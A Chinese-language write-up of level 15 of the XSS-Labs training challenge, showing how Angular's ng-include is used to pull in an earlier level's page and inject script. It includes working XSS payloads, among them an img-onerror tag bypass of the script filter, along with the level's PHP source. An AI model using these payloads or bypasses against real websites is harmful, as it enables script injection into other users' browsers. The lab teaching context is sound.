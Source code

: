 ### Angular JS ng-include XSS

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十五关**

看到这一关的参数是文件名

![](https://pic1.imgdb.cn/item/6814763858cb8da5c8d68bc0.png)

查看源代码发现有 `ng-include` 指令引入了图片

![](https://pic1.imgdb.cn/item/68147b4d58cb8da5c8d6a511.png)

尝试换为第一关的文件没有显示

![](https://pic1.imgdb.cn/item/68147f6258cb8da5c8d6b672.png)

加上单引号后就有了

![](https://pic1.imgdb.cn/item/68147fa658cb8da5c8d6b680.png)

所以我们可以利用第一关的漏洞，引入后直接传参

```html
?src='/level1.php?name=<script>alert()</script>'
```

发现有做过滤

![](https://pic1.imgdb.cn/item/6814803758cb8da5c8d6b69b.png)

采用标签绕过

```
?src='level1.php?name=<img src=abc onerror=alert(1)>'
```

![](https://pic1.imgdb.cn/item/6814836b58cb8da5c8d6b761.png)

看一下源代码

```php+HTML
<html ng-app>
<head>
        <meta charset="utf-8">
        <script src="angular.min.js"></script>
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level16.php?keyword=test"; 
}
</script>
<title>欢迎来到level15</title>
</head>
<h1 align=center>欢迎来到第15关，自己想个办法走出去吧！</h1>
<p align=center><img src=level15.png></p>
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>
```

